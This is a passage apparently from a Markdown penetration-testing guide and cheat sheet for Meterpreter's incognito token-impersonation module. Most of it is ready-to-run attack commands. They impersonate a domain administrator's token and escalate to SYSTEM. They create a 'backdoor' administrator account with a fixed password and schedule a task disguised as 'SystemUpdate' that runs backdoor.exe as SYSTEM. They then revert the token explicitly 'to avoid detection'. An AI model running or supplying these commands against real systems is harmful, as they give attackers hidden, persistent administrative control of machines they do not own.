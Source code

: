 ### **⚙️ Advanced Integration Scenarios:**

#### **Scenario 1: Multiple Token Sources**
```bash
# Enumerate all available token sources
list_tokens -u
ps | findstr "Administrator"

# Compare token impersonation vs process migration
# Method 1: Token impersonation
impersonate_token DOMAIN\\Administrator

# Method 2: Process migration
migrate [administrator_PID]

# Method 3: Direct SYSTEM escalation
getsystem

# Choose best method based on available options
```

#### **Scenario 2: Persistence Through Token Manipulation**
```bash
# Establish persistent access using token impersonation
impersonate_token DOMAIN\\Administrator

# Create persistent backdoor user
net user backdoor P@ssw0rd123 /add
net localgroup administrators backdoor /add

# Set up scheduled task for persistence
schtasks /create /tn "SystemUpdate" /tr "C:\Windows\System32\backdoor.exe" /sc daily /ru SYSTEM

# Return to original context to avoid detection
rev2self
```

---

## 📊 Command Reference and Cheat Sheet

### **Essential Commands Quick Reference:**

#### **Module Loading and Setup:**
```bash
load incognito                              # Load token manipulation module
help incognito                             # Show incognito help menu
```

#### **Token Enumeration:**
```bash
list_tokens -u                            # List tokens by username
list_tokens -g                            # List tokens by group
list_tokens -c                            # List tokens by SID
```
